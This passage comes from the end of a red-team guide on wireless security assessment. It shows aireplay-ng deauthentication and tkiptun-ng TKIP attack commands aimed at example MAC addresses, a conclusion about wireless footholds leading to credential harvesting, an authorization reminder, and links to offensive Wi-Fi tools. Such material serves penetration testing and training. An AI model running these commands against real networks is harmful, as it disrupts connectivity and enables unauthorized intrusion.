Test resilience against wireless denial of service:

```bash
# Targeted deauthentication
sudo aireplay-ng -0 0 -a 00:11:22:33:44:55 -c 66:77:88:99:AA:BB wlan0

# TKIP MIC exploitation
sudo tkiptun-ng -a 00:11:22:33:44:55 -h 66:77:88:99:AA:BB wlan0
```

## Conclusion

Wireless security assessment is a critical component of any comprehensive red team engagement. The toolsets and methodologies described in this chapter provide a framework for identifying and exploiting wireless vulnerabilities in a way that helps organizations understand and address their security weaknesses.

Remember that wireless attacks often represent the first step in a broader attack chain. A successful wireless compromise typically leads to internal network access, credential harvesting, and lateral movement opportunities that might otherwise be inaccessible through external penetration testing.

By combining technical expertise with a structured methodology and an understanding of defensive measures, red team operators can conduct thorough, realistic wireless security assessments that provide genuine value to their clients.

As a professional red teamer, always operate within the scope of your engagement and with proper authorization. Unauthorized wireless attacks may violate local laws and regulations.

### Additional Resources

1. [Aircrack-ng Documentation](https://www.aircrack-ng.org/documentation.html)
2. [EAPHammer GitHub Repository](https://github.com/s0lst1c3/eaphammer)
3. [Wifite GitHub Repository](https://github.com/derv82/wifite2)
4. [WiFi Pineapple Documentation](https://docs.hak5.org/wifi-pineapple-6th-gen-nano-tetra/)
5. [Practical Wireless Networks Hacking](https://www.evilsocket.net/2015/04/30/wireless-hacking-with-bettercap/)
6. [SANS Institute: Wireless Penetration Testing](https://www.sans.org/reading-room/whitepapers/wireless/wireless-penetration-testing-wi-fi-bluetooth-39730)
7. [Fluxion GitHub Repository](https://github.com/FluxionNetwork/fluxion)
8. [Airgeddon GitHub Repository](https://github.com/v1s1t0r1sh3r3/airgeddon)
9. [Wifiphisher Documentation](https://wifiphisher.org/documentation.html)
